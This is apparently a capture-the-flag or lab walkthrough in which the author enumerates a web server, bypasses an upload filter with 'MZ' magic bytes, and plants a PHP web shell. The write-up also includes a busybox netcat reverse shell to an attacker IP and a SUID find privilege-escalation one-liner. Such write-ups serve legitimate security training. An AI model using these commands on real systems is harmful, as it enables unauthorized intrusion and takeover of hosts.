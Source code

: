![](../attachment/e74e4ebb419b1e413ff7bcce979ccb0c.png)
Running feroxbuster:
```
feroxbuster -u http://192.168.155.33/ -C 404,400 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```
![](../attachment/01c6a506a2d1d8a50bbcbb103a4a8f4a.png)
We discover a backup.zip.

We can see the code for the web application:
![](../attachment/15392930b2ad50d67ef193726df58451.png)

![](../attachment/a613ef92374c33f27518832e7c315993.png)
It is a POST request to upload.php
![](../attachment/7d9d830babbbc8b1ca7bcc9070a9ee62.png)

Now to reverse this:
```php
<?php
$magicbytes = strtoupper(substr(bin2hex('MZ'),0,4));
print_r($magicbytes)
?>
```
Running it we get the magic byte we need:
![](../attachment/52966d965887ae1721327e33c7db18db.png)

![](../attachment/8826b9aa7384f63c2b4c59a941626913.png)
We can upload a shell this way.

Now we can test it:
http://192.168.155.33/upload/shell.php?cmd=whoami
![](../attachment/a280ed3821b47d3fdfa7ea3028d0c292.png)

Now to get a shell:
```
http://192.168.155.33/upload/shell.php?cmd=busybox%20nc%20192.168.45.233%2080%20-e%20bash
```
Start a listener:
```
sudo rlwrap -nlvp 80
```
![](../attachment/784d8b609b7652b7c7451871b333440a.png)


We find an unknown SUID binary using linpeas:
![](../attachment/9ef376932b167520e13dd89bf4d0cb3a.png)

![](../attachment/cf08913829e5e022ede165c7352ab13e.png)
This is find binary.

Using the gtfobins for find:
![](../attachment/312793b0a031ae3fd2902e38183433d4.png)

```
/opt/fileS . -exec /bin/sh -p \; -quit
```

![](../attachment/f412b48fb1578ea392352ce82d081a15.png)